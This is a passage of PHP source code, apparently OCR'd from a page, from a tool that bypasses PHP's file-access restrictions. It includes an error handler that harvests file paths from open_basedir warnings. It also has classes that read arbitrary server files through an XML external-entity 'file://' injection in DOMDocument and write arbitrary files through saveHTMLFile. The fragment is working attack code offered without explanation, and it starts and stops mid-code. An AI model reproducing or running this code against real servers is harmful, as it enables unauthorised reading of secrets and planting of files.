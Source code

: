 ```php
		foreach ($this->extension as $extension) {
			realpath($this->getCurrentPath() . $file_name . $extension);
		}
	}
	function handler($errno, $errstr, $errfile, $errline) {
		$regexp = '/File\((.*)\) is not within/';
		preg_match($regexp, $errstr, $matches);
		if (isset($matches[1])) {
			$this->fileList[] = $matches[1];
		}
 
	}
}
 
abstract class FileWriter implements Exploitable {
	var $filePath;
 
	function isAvailable() {}
	function getDescription() {}
	function write($content) {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}
 
abstract class FileReader implements Exploitable {
	var $filePath;
 
	function isAvailable() {}
	function getDescription() {}
	function read() {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}
 
// Assistant class for DOMFileWriter & DOMFileReader
class StreamExploiter {
	var $mode, $filePath, $fileContent;
 
	function stream_close() {
		$doc = new DOMDocument;
		$doc->strictErrorChecking = false;
		switch ($this->mode) {
		case 'w':
			$doc->loadHTML($this->fileContent);
			$doc->removeChild($doc->firstChild);
			$doc->saveHTMLFile($this->filePath);
			break;
		default:
		case 'r':
			$doc->resolveExternals = true;
			$doc->substituteEntities = true;
			$doc->loadXML("<!DOCTYPE doc [<!ENTITY file SYSTEM \"file://{$this->filePath}\">]><doc>&file;</doc>", LIBXML_PARSEHUGE);
			echo $doc->documentElement->firstChild->nodeValue;
		}
```